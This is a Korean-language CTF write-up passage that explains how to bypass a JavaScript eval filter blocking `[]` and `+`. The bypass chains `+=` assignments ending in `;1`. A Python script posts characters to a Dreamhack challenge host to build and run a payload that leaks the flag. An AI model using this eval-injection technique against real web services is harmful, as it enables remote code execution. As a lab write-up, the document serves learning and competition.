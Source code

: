 드림핵 UCC CTF에 출제된 문제의 진화 버전이다. (이게 MISC인가...?)

`[]`의 사용이 막혀있고 `+`는 `+=`와 같이 사용할 수 있다.

평범하게 RCE를 할려고 했는데 `+`가 막혀있고, `+=`를 활용하자니 eval이 3번 실행되어 `rccceee`와 같이 작동하는 문제가 생겼다.

`eval(input_str) > 0 == false` 이 조건문에서 멈춰야 하므로 양수를 리턴해야 한다.

```js
a = "F";
b = "L";
eval("a+=b"); // FL
a = "F";
b = "L";
eval("a+=b;1"); // 1
```

JS eval은 다음과 같이 동작하기 떄문에 우회할 수 있다.

```py
import re
import requests as req
import string

url = 'http://host1.dreamhack.games:23344'
# url = 'http://localhost:8000'

payload = '''throw Error(f)'''

def send(c):
    res = req.post(url, data={'input_str': c}, allow_redirects=False)
    return res.text

send('e=eval')
send('f=flag')
send('a=""')
for c in payload:
    send(f'b="{c}"')
    send(f'a+=b;1')
res = req.post(url, data={'input_str': 'r=req'}, allow_redirects=False)
flag = send(f'e(a)')

flag = re.findall(r'WaRP\{[a-zA-Z0-9]*\}', flag)[0]
print(flag)
```

## Review

해킹 대회에서 처음으로 1등을 했는데 매우 기분 좋다!

다른 분야에 비해 웹이 쉽게 나와서 많이 풀었지만 `admin console`은 경험이 부족하거나 언인텐이 없었다면 못 풀었을 수도 있다.
